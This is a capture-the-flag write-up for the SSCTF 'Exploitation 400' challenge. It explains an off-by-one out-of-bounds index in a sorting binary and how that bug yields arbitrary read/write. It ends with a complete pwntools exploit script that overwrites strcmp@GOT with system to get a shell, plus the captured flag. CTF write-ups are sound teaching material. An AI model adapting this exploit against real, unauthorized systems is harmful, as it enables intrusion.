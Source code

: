 ```yaml
---
layout: post
title: SSCTF - Exploitation 400
category: [Exploitation]
tags: [Exploitation, SSCTF]
comments: true
---
```


**Points:** 400
**Solves:** 
**Category:** Exploitation
**Description:**

> [pwn1-fb39ccfa.zip]({{site.url}}/assets/pwn1-fb39ccfa.zip)

## Part 1, The Vulnerability

First of two Exploitation challenges in SSCTF, this package contains 32bit binary and the server's libc.so library.
I will not go over every detail but only the vulnerability and exploitation parts. On start the binary displays a menu.

{% highlight text %}
_
            +-------------------------+
            +  Welcome To SSCTF PWN1  +
            +   Have A Good Time :)   +
            +-------------------------+
_CMD_$ help

Command Menu:
	history : Show history
	reload  : Reload history
	clear   : Clear history
	sort    : Sort numbers
	exit    : Exit
_CMD_$

{% endhighlight %}

It's a integer sorting function. Choosing the sort option we are asked for the number of integers to sort and than a sub-menu appears.

{% highlight text %}
_CMD_$ sort
How many numbers do you want to sort: 5
1 of 5, Enter a number: 255
2 of 5, Enter a number: 255
3 of 5, Enter a number: 255
4 of 5, Enter a number: 255
5 of 5, Enter a number: 255

Sort Menu:
	1: Query number by index
	2: Update number by index
	3: Sort numbers
	7: Quit
Choose:
{% endhighlight %}

Each one of the sorting options are self-explanatory. The History option, shows us the previously sorted lists. The reload option moves us in the context of the chosen history list ID. To exploit this binary we are only interested in the sort (including the sort sub-menu) and reload.

Let's see how the sort function works. By issuing the above commands, we have created a struct with the following elements.

{% highlight text %}
struct list {
	int number_of_elements;
	int array[5];
};

0x804e038:	0x00000005	0x000000ff	0x000000ff	0x000000ff
0x804e048:	0x000000ff	0x000000ff	0x0804e038	0x00000000

{% endhighlight %} 

Next to it, there is another struct of 2 elements. It is used to keep track of the current active list. Right now only the first element has a value, which is a pointer to the beginning of our first list (remember that because it's going to be used for the exploitation part).

Just by playing around with the Sort Menu, we can notice a few interesting things. First, the main vulnerability which is accessing out of bound element because the indexes == len of the array, this allows us to access one additional element. We also see that we can't access an index higher than the number of elements stored in list->number_of_elements.

{% highlight text %}
Sort Menu:
	1: Query number by index
	2: Update number by index
	3: Sort numbers
	7: Quit
Choose: 1
Query index: 5
[*L*] Query result: 134537272

Sort Menu:
	1: Query number by index
	2: Update number by index
	3: Sort numbers
	7: Quit
Choose: 1
Query index: 6
[*E*] Query failed!
{% endhighlight %}

The reload option takes list ID from the history, makes it as the current active list and moves us to the Sort Menu to perform some action on it. Behind the scenes however, the reload option takes the pointer that points to the beginning of the struct and uses it as a source for memcpy. It takes the first element and it does ((x + 1) << 2), it than uses the result as size for memcpy. The destination is just the next available space (not important in our case).

## Part 2, The Exploit

So, what do we know so far? We know we can read/write @ the pointer of the struct. We also know that we can use that pointer via the reload function to be the source of memcpy and thus change the current active list to have data based on what we are going to copy to the destination. I know it sounds a bit confusing but this is what we are going to do.

1. Leak the pointer to the struct
2. Change the pointer to a location where we control data (this will be in the current struct, just different offset)
3. Invoke reload so we copy the data we control into the new active list. This will allow us to control the first element in the new list, which is going to lift the indexing restrictions.
4. Now that our active sort list is with a controlled number_of_elements, we can reference any offset in the whole binary.
This is what gives us read/write to any address via the Sort Menu's Query and Update number by index.
5. Leak the address of strcmp
6. Change strcmp with system

Knowing the plan of action and what each step with allow us to do should of cleared things for you :).

## Final script

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

r = remote('pwn.lab.seclover.com', 11111)
#r = process(['./pwn1-fb39ccfa'])
#print util.proc.pidof(r)
#sys.stdin.read(1)

# Step 1 get address of struct
garbage = r.recv()
r.sendline("sort")			# Sort
r.sendline("1")				# only 1 element
r.sendline("1073741824")			# size for memcpy. ((0x40000000 + 1) << 2) == 4 bytes
r.sendline("3")				# Sort the list, this places the ptr at the end
r.sendline("1")				# Leak pointer
r.sendline("1")				# Out of bound array access
garbage =  r.recvuntil("Query result: ")
leak = r.recvline()
log.info("Leak: " + hex(int(leak)))


# Step 2, overwrite controlled ptr to point to the beginning of struct+4
# this will cause our first element (array[0] == 0x40000000) to be used
# as number_of_elements in the next active list when we reload
r.sendline("2")
r.sendline("1")					# Out of bound array array access again
r.sendline(str(int(leak) + 4))			# make ptr to struct to be ptr+4
r.sendline("7")					# Exit sub-menu

# Step 3, This makes a new active list with number_of_elements
# a copy from previous list's array[0]
r.sendline("reload")
r.sendline("0")

# Step 4, here reload entered us in Sort Menu
r.sendline("1")					# find index for strcmp
r.sendline(str( (0x10804d03c - (int(leak)+20)) / 4 ))	# Calc index for strcmp@got addr

# Step 5, leak address of strcmp@got
garbage = r.recvuntil("Query result:")
strcmp = r.recvline()
log.info("strcmp: " + hex( abs((int(strcmp) ^ 0xffffffff) + 1) ))

# Step 6, overwrite strcmp with system
r.sendline("2")
r.sendline(str( (0x10804d03c - (int(leak)+20)) / 4 ))
r.sendline(str( int(strcmp) - 0x3bfa0 )) # Local 0xf9940
r.sendline("7")

# Argument for the new system()
r.sendline("/bin/sh")

r.interactive()

# pwn400 flag - SSCTF{e8b381956eac817add74767b15c448e4}
{% endhighlight %}

* Hope you liked it :), to be continue in pwn600
